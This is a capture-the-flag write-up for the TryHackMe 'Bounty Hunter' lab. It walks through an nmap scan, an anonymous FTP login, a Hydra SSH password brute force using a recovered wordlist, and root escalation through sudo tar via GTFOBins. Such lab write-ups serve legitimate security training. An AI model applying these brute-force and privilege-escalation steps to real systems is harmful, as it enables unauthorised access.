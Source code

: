 # TRYHACKME : Bounty Hunter

## NMAP
There is a lot of open ports starting in the line of 40000.
```
PORT      STATE  SERVICE         REASON
20/tcp    closed ftp-data        reset ttl 61
21/tcp    open   ftp             syn-ack ttl 61
22/tcp    open   ssh             syn-ack ttl 61
80/tcp    open   http            syn-ack ttl 61
990/tcp   closed ftps            reset ttl 61
40193/tcp closed unknown         reset ttl 61
40911/tcp closed unknown         reset ttl 61
41511/tcp closed unknown         reset ttl 61
42510/tcp closed caerpc          reset ttl 61
44176/tcp closed unknown         reset ttl 61
44442/tcp closed coldfusion-auth reset ttl 61
44443/tcp closed coldfusion-auth reset ttl 61
44501/tcp closed unknown         reset ttl 61
45100/tcp closed unknown         reset ttl 61
48080/tcp closed unknown         reset ttl 61
49152/tcp closed unknown         reset ttl 61
49153/tcp closed unknown         reset ttl 61
49154/tcp closed unknown         reset ttl 61
49155/tcp closed unknown         reset ttl 61
49156/tcp closed unknown         reset ttl 61
49157/tcp closed unknown         reset ttl 61
49158/tcp closed unknown         reset ttl 61
49159/tcp closed unknown         reset ttl 61
49160/tcp closed unknown         reset ttl 61
49161/tcp closed unknown         reset ttl 61
49163/tcp closed unknown         reset ttl 61
49165/tcp closed unknown         reset ttl 61
49167/tcp closed unknown         reset ttl 61
49175/tcp closed unknown         reset ttl 61
49176/tcp closed unknown         reset ttl 61
49400/tcp closed compaqdiag      reset ttl 61
49999/tcp closed unknown         reset ttl 61
50000/tcp closed ibm-db2         reset ttl 61

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 159.50 secondshttp://10.10.94.137/
           Raw packets sent: 2983 (131.228KB) | Rcvd: 554 (126.220KB)
```
This room is tricky because after running the nmap command it will stop scanning the IP, so you must make the most of it.


## FTP PORT 21
I tried to enter port 21 with anonymous login.
```
220 (vsFTPd 3.0.3)
Name (10.10.94.137:miakalifa): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||46731|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
Get both of the files.

### Locks.txt
This one must be a list of usernames we will use sometime later:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

### Task.txt
A note from Lin:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
## Gobuster

Running a directory is not working with the following room.

## SSH

Let's now use the following credential we got for ssh bruteforce. 

We got `Lin` as our main username credential and `locks.txt` for the password.

### Hydra
```
$ hydra -l lin -P locks.txt ssh://[TARGET-IP]
...
[22][ssh] host: 10.10.94.137   login: lin   password: [RETRIEVE PASSWORD]          
```

Finally, let's enter the credential. `ssh lin@[TARGET-IP]`

Then retrieve the flag from `user.txt`.

### Privilege Escalation

Time to escalate!

You must act fast because for some reason, my ssh connection is quite laggy and annoying.

I tried to find some a vulnerable path, and I think the `sudo -l` seems to give us a way.

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Lets look up the [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) for the `tar` bin directory.

Then let's retrieve the root flag.
